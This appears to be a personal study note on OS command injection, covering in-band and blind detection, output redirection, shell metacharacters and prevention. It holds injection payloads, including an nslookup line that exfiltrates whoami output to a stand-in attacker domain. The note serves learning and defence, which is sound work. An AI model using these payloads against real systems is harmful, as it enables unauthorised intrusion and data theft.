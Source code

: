 # What is OS command injection
OS command injection is also known as **shell injection.**
It allows an attacker to execute OS commands on the server that is running and application.
OS command injection usually leads to the fully application being compromised, as well as its data.
Remember that the commands that are being executed are being executed with the privileges of certain user, but often an attack can be used to compromise the host and then pivot all around the infrastructure.

n this example, a shopping application lets the user view whether an item is in stock in a particular store. This information is accessed via a URL:

`https://insecure-website.com/stockStatus?productID=381&storeID=29`

To provide the stock information, the application must query various legacy systems. For historical reasons, the functionality is implemented by calling out to a shell command with the product and store IDs as arguments:

`stockreport.pl 381 29`

This command returns the stock status for the specified product and store.

The application implements no defenses against OS command injection, so an attacker can submit the following input to execute an arbitrary command:
`& echo aiwefwlguh &`

If this input is submitted in the `productID` parameter, the command executed by the application is:
`stockreport.pl & echo aiwefwlguh & 29`

The `echo` command causes the supplied string to be echoed in the output. This is a useful way to test for some types of OS command injection. The `&` character is a shell command separator. In this example, it causes three separate commands to execute, one after another. The output returned to the user is:

`Error - productID was not provided aiwefwlguh 29: command not found`

The three lines of output demonstrate that:
- The original `stockreport.pl` command was executed without its expected arguments, and so returned an error message.
- The injected `echo` command was executed, and the supplied string was echoed in the output.
- The original argument `29` was executed as a command, which caused an error.

Placing the additional command separator `&` after the injected command is useful because it separates the injected command from whatever follows the injection point. This reduces the chance that what follows will prevent the injected command from executing.

Here is a lab that covers this topic: [simple_os_command_injection](labs/simple_os_command_injection.md)

## Useful commands
After you identify an OS command injection vulnerability, it's useful to execute some initial commands to obtain information about the system. Below is a summary of some commands that are useful on Linux and Windows platforms:

|Purpose of command|Linux|Windows|
|---|---|---|
|Name of current user|`whoami`|`whoami`|
|Operating system|`uname -a`|`ver`|
|Network configuration|`ifconfig`|`ipconfig /all`|
|Network connections|`netstat -an`|`netstat -an`|
|Running processes|`ps -ef`|`tasklist`|

## Blind OS command injection vulnerabilities
Many instances of OS command injection are blind vulnerabilities. This means that the application does not return the output from the command within its HTTP response. Blind vulnerabilities can still be exploited, but different techniques are required.

As an example, imagine a website that lets users submit feedback about the site. The user enters their email address and feedback message. The server-side application then generates an email to a site administrator containing the feedback. To do this, it calls out to the `mail` program with the submitted details:

`mail -s "This site is great" -aFrom:peter@normal-user.net feedback@vulnerable-website.com`

The output from the `mail` command (if any) is not returned in the application's responses, so using the `echo` payload won't work. In this situation, you can use a variety of other techniques 
to detect and exploit a vulnerability.

### Detecting blind OS command injection using time delays
You can use an injected command to trigger a time delay, enabling you to confirm that the command was executed based on the time that the application takes to respond. The `ping` command is a good way to do this, because lets you specify the number of ICMP packets to send. This enables you to control the time taken for the command to run:

`& ping -c 10 127.0.0.1 &`

This command causes the application to ping its loopback network adapter for 10 seconds.

I personally like `sleep 10`, as it is easier to do.

### Exploiting blind OS command injection by redirecting output
You can redirect the output from the injected command into a file within the web root that you can then retrieve using the browser. For example, if the application serves static resources from the filesystem location `/var/www/static`, then you can submit the following input:

`& whoami > /var/www/static/whoami.txt &`

The `>` character sends the output from the `whoami` command to the specified file. You can then use the browser to fetch `https://vulnerable-website.com/whoami.txt` to retrieve the file, and view the output from the injected command.

### Exploiting blind OS command injection using out-of-band (OAST) techniques
You can use an injected command that will trigger an out-of-band network interaction with a system that you control, using [OAST](https://portswigger.net/burp/application-security-testing/oast) techniques. For example:
`& nslookup kgji2ohoyw.web-attacker.com &`

This payload uses the `nslookup` command to cause a DNS lookup for the specified domain. The attacker can monitor to see if the lookup happens, to confirm if the command was successfully injected.
The out-of-band channel provides an easy way to exfiltrate the output from injected commands:
``& nslookup `whoami`.kgji2ohoyw.web-attacker.com &``

This causes a DNS lookup to the attacker's domain containing the result of the `whoami` command:
`wwwuser.kgji2ohoyw.web-attacker.com`

Both labs are resolved in [os_command_injection_out_of_band](labs/os_command_injection_out_of_band.md)

## Ways of injecting OS commands
You can use a number of shell metacharacters to perform OS command injection attacks.

A number of characters function as command separators, allowing commands to be chained together. The following command separators work on both Windows and Unix-based systems:
- `&`
- `&&`
- `|`
- `||`

The following command separators work only on Unix-based systems:
- `;`
- Newline (`0x0a` or `\n`)

On Unix-based systems, you can also use backticks or the dollar character to perform inline execution of an injected command within the original command:
- `` ` `` injected command `` ` ``
- `$(` injected command `)`

The different shell metacharacters have subtly different behaviors that might change whether they work in certain situations. This could impact whether they allow in-band retrieval of command output or are useful only for blind exploitation.

Sometimes, the input that you control appears within quotation marks in the original command. In this situation, you need to terminate the quoted context (using `"` or `'`) before using suitable shell metacharacters to inject a new command.

## How to prevent OS command injection attacks
The most effective way to prevent OS command injection vulnerabilities is to never call out to OS commands from application-layer code. In almost all cases, there are different ways to implement the required functionality using safer platform APIs.

If you have to call out to OS commands with user-supplied input, then you must perform strong input validation. Some examples of effective validation include:

- Validating against a whitelist of permitted values.
- Validating that the input is a number.
- Validating that the input contains only alphanumeric characters, no other syntax or whitespace.

Never attempt to sanitize input by escaping shell metacharacters. In practice, this is just too error-prone and vulnerable to being bypassed by a skilled attacker.